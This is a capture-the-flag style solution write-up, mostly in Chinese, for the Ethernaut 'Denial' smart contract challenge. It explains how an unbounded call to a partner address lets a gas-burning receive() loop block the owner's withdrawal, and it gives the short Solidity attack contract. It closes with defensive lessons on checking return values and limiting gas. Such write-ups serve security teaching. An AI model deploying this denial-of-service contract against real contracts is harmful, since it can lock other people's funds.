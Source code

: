 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/20-denial.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 20 - Denial</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 20 - Denial](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

目的是要阻止 owner 在 withdraw 的时候提取资产
<img src="../imgs/requirements/20-denial-requirements.webp" width="800px"/>

## 漏洞

The goal of the Denial challenge is to prevent the owner from withdrawing funds using the `withdraw()` function. How to do that?

我们看一下 `withdraw()` 函数的实现细节:

```javascript
function withdraw() public {
        uint amountToSend = address(this).balance / 100; // 1% 的余额
        partner.call{value:amountToSend}(""); // 发送eth给 partner
        payable(owner).transfer(amountToSend); //发送eth给 owner 

        //无关代码
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }
```

这里又两个external calls:

- `partner.call{value:amountToSend}("");`
- `payable(owner).transfer(amountToSend);`

给owner转账的 `transfer` 没有什么操作空间. 但是, `call` 转账时，我们可以在`receive()`实现更多的逻辑. 为了不给owner转账，我们只需要在调用`call`时，直接消耗完所有的gas，则会直接错误`outofgas`；这样给owner转账的时候，就会失败了:

```javascript
receive() external payable {
    while (true) {}
}
```

## 解答

实现攻击合约:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Attack {
    receive() external payable {
        while (true) {}
    }

    // receive() external payable {
    //     revert();
    // }
}

```

你可以在项目的根目录执行以下命令，进行验证：

```bash
forge test --match-contract  DenialTest  -vvvvv
```

## 要点

- 需要检测`call` 的返回值.
- 使用 `call` 的时候，需要指定gas.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
